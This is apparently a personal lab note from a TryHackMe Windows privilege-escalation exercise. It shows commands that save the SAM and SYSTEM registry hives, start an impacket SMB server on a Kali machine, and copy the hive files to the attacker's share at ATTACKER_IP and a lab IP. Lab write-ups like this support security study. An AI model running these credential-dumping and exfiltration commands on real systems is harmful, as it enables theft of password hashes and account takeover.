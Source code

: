 

![6621b4a6fde2ab3743665daa202d6cfd.png](../../../../_resources/6621b4a6fde2ab3743665daa202d6cfd.png)

Backup system hashes and SAM hashes
```
C:\> reg save hklm\system C:\Users\THMBackup\system.hive
The operation completed successfully.

C:\> reg save hklm\sam C:\Users\THMBackup\sam.hive
The operation completed successfully.
```

Transfer hashes
```
# Prepare kali for file transfer
kali> mkdir /tmp/share
kali> impacket-smbserver -smb2support -username THMBackup -password CopyMaster555 public /tmp/share

# Transfer file from windows to kali
Windows> copy C:\Users\THMBackup\sam.hive \\10.2.11.84\public\
Windows> copy C:\Users\THMBackup\system.hive \\ATTACKER_IP\public\
```